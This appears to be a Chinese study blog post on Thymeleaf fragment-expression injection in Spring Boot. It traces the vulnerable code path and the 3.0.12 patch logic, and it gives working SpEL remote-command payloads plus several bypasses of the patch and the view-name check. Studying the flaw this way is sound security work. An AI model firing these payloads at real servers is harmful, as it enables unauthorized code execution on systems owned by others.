 ```yaml
---
title: thymeleaf简单入门
date: 2022-12-16 08:25:21
tags:
      -- java
      -- thymeleaf

---
```


## thymeleaf fragment注入学习

### 与springBoot整合

### 步骤

##### 1.导入依赖,版本可以不写,由springBoot统一管理

```xml
<dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
```

##### 2.在resources文件夹下面创建templates文件夹,一般所有模板均放在此文件夹下面

![image-20221104235220749](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221104235220749.png)

##### 3.配置模板文件路径的前后缀

![image-20221104235352336](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221104235352336.png)

##### 4.配置打包后的静态资源存放路径,一般不需要写

![image-20221104235458060](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221104235458060.png)

##### 5.编写代码

![image-20221104235637768](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221104235637768.png)

访问/index即可



#### 注入原理

该漏洞有版本限制,目前在springBoot2.2.0.RELEASE版本可以执行

[原理文章](https://github.com/veracode-research/spring-view-manipulation/)

before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:

thymeleaf的fragment 功能会将::后面的字符串当成表达式解析

fragement功能实现效果类似于vue动态路由传递一个参数过去让其选择性显示某一个div

![image-20221105005907494](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221105005907494.png)

```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```

##### payload

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
```



#### 原理简单跟进

spel表达式则需要再额外学习一下,这里先跟着研究一下Payload的简单构造原理

#### ![image-20221105180720931](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221105180720931.png)

上面这段表明只有当模板名称包含::的时候,才能进入到parseExpression

打断点跟进,发现在这个方法中会执行

![image-20221105182319525](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221105182319525.png)

在这里通过正则匹配到__  __包裹的内容

![image-20221105182858029](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221105182858029.png)

最后执行的时候会被还原成一个标准的spel表达式

![image-20221105183035030](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221105183035030.png)

**以上逻辑仅限于Thymeleaf 3.0-3.0.12(不含3.0.12)**     

## Thymeleaf 3.0.12

在3.0.12版本发布了一个补丁

其新增了一个这样的函数,当调用表达式的时候，会经过该函数的判断

```java
public static boolean containsSpELInstantiationOrStatic(final String expression) {
        final int explen = expression.length();
        int n = explen;
        int ni = 0; // index for computing position in the NEW_ARRAY
        int si = -1;
        char c;
        while (n-- != 0) {
            c = expression.charAt(n);
            if (ni < NEW_LEN
                    && c == NEW_ARRAY[ni]
                    && (ni > 0 || ((n + 1 < explen) && Character.isWhitespace(expression.charAt(n + 1))))) {
                ni++;
                if (ni == NEW_LEN && (n == 0 || !Character.isJavaIdentifierPart(expression.charAt(n - 1)))) {
                    return true; // we found an object instantiation
                }
                continue;
            }

            if (ni > 0) {
                n += ni;
                ni = 0;
                if (si < n) {
                    // This has to be restarted too
                    si = -1;
                }
                continue;
            }

            ni = 0;

            if (c == ')') {
                si = n;
            } else if (si > n && c == '('
                        && ((n - 1 >= 0) && (expression.charAt(n - 1) == 'T'))
                        && ((n - 1 == 0) || !Character.isJavaIdentifierPart(expression.charAt(n - 2)))) {
                return true;
            } else if (si > n && !(Character.isJavaIdentifierPart(c) || c == '.')) {
                si = -1;
            }

        }
        return false;
    }
```

可以看到其主要逻辑是首先 倒序检测是否包含 `wen`关键字、在`(`的左边的字符是否是`T`，如包含，那么认为找到了一个实例化对象，返回`true`，阻止该表达式的执行。

因此要绕过这个函数，只要满足三点：
1、表达式中不能含有关键字`new`
2、在`(`的左边的字符不能是`T`
3、不能在`T`和`(`中间添加的字符使得原表达式出现问题

三梦师傅给出的答案是%20(空格)，在copanda的研究中发现其实还有%0a(换行)、%09(制表符)，此外，通过 fuzzing 同样可以找到很多可以利用的字符

##### payload

```
home/__${new java.util.Scanner(T (java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
```

#### 当视图名与当前path一致的时候

就是类似这样

![image-20221105185826610](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20221105185826610.png)

那么就会经过`SpringRequestUtils.java`中的`checkViewNameNotInRequest`函数检测

##### 绕过方法

###### 1.两个/

```
user//__${new java.util.Scanner(T (java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
```

###### 2.分号

```
user/;__${new java.util.Scanner(T (java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
```

